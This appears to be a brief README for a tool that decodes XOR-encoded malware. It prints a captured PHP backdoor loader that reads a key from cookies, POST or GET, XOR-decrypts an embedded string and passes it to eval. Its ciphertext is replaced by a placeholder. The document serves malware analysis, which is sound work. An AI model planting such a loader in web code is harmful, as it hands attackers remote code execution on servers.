 # xor-decoding
## Decoding Exclusive-or encoded malware payloads

## Finding key size

[Hamming Distance](https://en.wikipedia.org/wiki/Hamming_distance)

    $ make keysize
    $ ./keysize ciphertextfilename > dat

## Payload

    <?php
    for (
          $o = 0, $e = 'string of random-appearing characters',$d = '';
          @ord($e[$o]);
          $o++)
    ) {
        if ($o < 16) {
            $h[$e[$o]] = $o;
        } else {
            $d .= @chr(($h[$e[$o]] << 4) + $h[$e[++$o]]);
        }
    }
    if (!@isset($_SERVER)) {
        $_COOKIE =& $HTTP_COOKIE_VARS;
        $_POST =& $HTTP_POST_VARS;
        $_GET =& $HTTP_GET_VARS;
    }
    $k = $_COOKIE['key'];
    if (empty($k)) {
        $k = $_POST['key'];
    }
    if (empty($k)) {
        $k = $_GET['key'];
    }
    if (!@function_exists('decrypt')) {
        eval('function decrypt($e,$k){if(!$k){return;}$el=@strlen($e);$kl=@strlen($k);$rl=$el%$kl;$fl=$el-$rl;for($o=0;$o<$fl;$o+=$kl){$p=@substr($e,$o,$kl);$d.="$k"^"$p";}if($rl){$p=@substr($e,$fl,$rl);$k=@substr($k,0,$rl);$d.="$k"^"$p";}return($d);}');
    }
    $d = @decrypt($d, $k);
    eval($d);
## Original decrypting function


    function decrypt($e, $k)
    {
        if (!$k) {
            return;
        }
        $el = @strlen($e);
        $kl = @strlen($k);
        $rl = $el % $kl;
        $fl = $el - $rl;
        for ($o = 0; $o < $fl; $o += $kl) {
            $p = @substr($e, $o, $kl);
            $d .= "{$k}" ^ "{$p}";
        }
        if ($rl) {
            $p = @substr($e, $fl, $rl);
            $k = @substr($k, 0, $rl);
            $d .= "{$k}" ^ "{$p}";
        }
        return $d;
    }
